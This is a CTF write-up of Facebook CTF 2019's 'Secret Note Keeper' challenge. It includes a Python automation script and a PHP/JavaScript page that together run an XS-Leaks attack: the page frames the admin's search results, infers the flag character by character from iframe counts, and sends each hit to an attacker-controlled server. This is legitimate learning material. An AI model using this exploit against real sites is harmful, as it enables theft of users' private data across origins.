 ```yaml
---
comments: true
title: Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019
date: 2019-07-03 00:00:00 +0700
category:
- ctf
- facebookctf
tags:
- ctf
private: false

---
```

### Writeup Secret Note Keeper (xs-leaks) Facebook CTF 2019

![](/uploads/fbctf.PNG)

#### English

Were given a website that was able to create note, report note and have a function to search note, the search note function will return each note using an iframe tag, our task is to extract the flag from administrator note.

we found that the report function is sending this json data 

    {"title":"My note","body":"x","link":"you_note_link"}

and we was able to change the link parameter into any resource that we want the admin to visit I try to send my webserver into the link parameter 

    {"title":"My note","body":"x","link":"https://myserver:1337"}

after couple seconds get request from someone that i believe the administrator from secret keeper note website with user agent _Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/74.0.3729.169 Safari/537.36._

since the administrator open our url using an **HeadlessChrome** we are able to execute any javascript on behalf as administrator but the thing is how we are able to extract the sensitive information from secret keeper note ? here is come the **xs-leaks power** to extract data from secret keeper note by abusing the search function using side channel attack.

as we know the search function is not implemented **X-Frame-Options** so we are able to frame the url from any origin and the parameter to search a note is using GET parameters so we can specify what query to extract from the GET parameters, search endpoint is look like this [http://challenges.fbctf.com:8082/search?query=](http://challenges.fbctf.com:8082/search?query= "http://challenges.fbctf.com:8082/search?query=")YOUR_QUERY if we use an iframe to secret note keeper from an administrator browser it will use the administrator cookies to open the frame right with an xs-leaks we are able to detect if our search result contains iframe or not using javascript **contentWindow.length** and based on that we are able to build an javascript payload to extract secret from administrator.

I create script to automate the process to extract flag and using hosted requestb.in to grab the response.

    # xs-leaks.py
    import hashlib
    import time
    import itertools
    import string
    import requests
    import os
    import random
    
    def crack(target, size=1):
        for xs in itertools.product("0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ", repeat=size):
            pw = ''.join(xs)
    	if target == hashlib.md5(pw).hexdigest()[:5]:
                return pw
        return crack(target, size+1)
    
    req = requests.session()
    creds = random.random()
    req.post("http://challenges3.fbctf.com:8082/login",data={"username":str(creds),"password":str(creds)})
    exploit_url ="http://49d351c5.ngrok.io/xs-leaks.php?1={}"
    flag = "fb"
    
    while(1):
    	expl_url = exploit_url.format(flag).replace("&lt;","<")
    	quest = req.get("http://challenges3.fbctf.com:8082/report_bugs").text.split("proof of work for ")[1].split(" (proof of work is first 5")[0]
    	pow = crack(quest)
    	req.post("http://challenges3.fbctf.com:8082/report_bugs",data={"title":flag,"body":"x","link":expl_url,"pow_sol":pow}).text
    	os.system("sleep 5")
    	tmp  = req.get("http://35.247.145.15:8000/wrymemwr?inspect").text.split("query=")[1]
            tmpx = tmp[:len(flag)+1]
    
    	if(tmpx[len(tmpx)-1] != "<"):
                    flag = tmpx
    
    	print "Current Flag: " + flag

#### xs-leaks.py explaination

* login using random credentials
* sovling the captcha using crack function ( this is added by facebook team in the middle of ctf after the bot died multiple times because of everyone send tons of request to the bot )
* report bug into secret note keeper with exploit url (xs-leaks.php)
* sleep 5 ( wait the bot to response )
* lookup the requestb.in if the administrator already respond and extract the data
* print current flag

Another script to make this exploit complete is xs-leaks.php

    <!-- xs-leaks.php -->
    <head><script src="https://ajax.googleapis.com/ajax/libs/jquery/3.4.0/jquery.min.js"></script></head>
    <body>
      <script>
    	var chars = "_abcdefghijklmnopqrstuvwxyz{}1234567890|<@$^*()!>";
            function measureUrl(url, callback) {
                var iframe = $('<iframe />');
                iframe.attr('src', url);
                iframe.css('display', 'none');
                iframe.on('load', function () {
                    if(callback) callback(url, this.contentWindow.length);
                });
                $('body').append(iframe);
            }
            var flag = '<?=$_GET[1]?>';
            for (var i = 0; i < chars.length; i++) {
                var u = 'http://challenges.fbctf.com:8082/search?query=' + flag+chars.charAt(i);
                measureUrl(u, function(url, res) {
                   if (res!=0) {
                       measureUrl('http://35.247.145.15:8000/wrymemwr?a=' + url);
                   }
                });
            }
      </script>
    </body>
    

#### xs-leaks.php explaination

* loads jquery
* use flag variable from $_GET\[1\]
* bruteforce using chars defined with search query from an iframe ( if contentWindows.lenght != 0 it means the character is found )
* if the javascript detect valid character send it into self hosted requestb.in ( xs-leaks.py will extract the character and append current flag until the last character )

#### Terminal explains more loud

![](/uploads/xs-leaks.PNG)

Automated solve: [https://asciinema.org/a/249560](https://asciinema.org/a/249560 "https://asciinema.org/a/249560")